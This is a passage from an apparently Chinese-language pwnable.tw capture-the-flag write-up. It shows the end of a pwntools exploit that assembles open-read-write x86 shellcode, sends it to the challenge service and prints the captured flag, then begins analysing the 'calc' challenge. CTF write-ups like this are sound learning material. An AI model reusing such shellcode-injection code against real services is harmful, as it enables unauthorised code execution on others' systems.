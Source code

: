 ```python
mov ebx,eax
mov ecx,esp
mov edx,0x30
mov eax,0x3
int 0x80
mov ebx,1
mov eax,0x4
int 0x80
'''
shellcode = asm(shellcode)
io.recvuntil(':')
io.send(shellcode)
io.interactive()
```

> FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}

# 0x03 calc

开启NX，Canary

![image-20220407172356441](pwnabletw.assets/image-20220407172356441.png)

![image-20220407201854256](pwnabletw.assets/image-20220407201854256.png)

主函数先是一个计时器，主要在calc函数

![image-20220407201938007](pwnabletw.assets/image-20220407201938007.png)
